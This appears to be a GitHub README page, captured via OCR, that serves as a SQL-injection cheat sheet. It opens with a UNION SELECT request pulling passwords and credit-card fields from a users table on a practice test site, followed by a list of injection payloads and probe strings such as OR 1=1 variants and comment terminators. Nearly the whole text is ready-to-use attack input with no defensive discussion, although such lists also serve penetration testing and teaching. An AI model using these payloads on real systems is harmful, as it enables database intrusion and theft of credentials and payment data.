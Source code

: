     GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1,pass,cc FROM users WHERE uname='test' HTTP/1.1
    Host: testphp.vulnweb.com

![image](https://user-images.githubusercontent.com/80889609/157418082-afc41aaa-6934-4688-8d6c-f43ba6c996d8.png)


 ## SQL-Injection Payloads
     
     '
     ''
     `
     ``
     ,
     "
     ""
     /
     //
     \
     \\
     ;
     ' or "
     -- or # 
     ' OR '1
     ' OR 1 -- -
     " OR "" = "
     " OR 1 = 1 -- -
     ' OR '' = '
     '='
     'LIKE'
     '=0--+
      OR 1=1
     ' OR 'x'='x
     ' AND id IS NULL; --
     '''''''''''''UNION SELECT '2
     %00
     /*…*/ 
     +		addition, concatenate (or space in url)
     ||		(double pipe) concatenate
     %		wildcard attribute indicator

     @variable	local variable
     @@variable	global variable


     # Numeric
     AND 1
     AND 0
     AND true
     AND false
     1-false
     1-true
     1*56
     -2
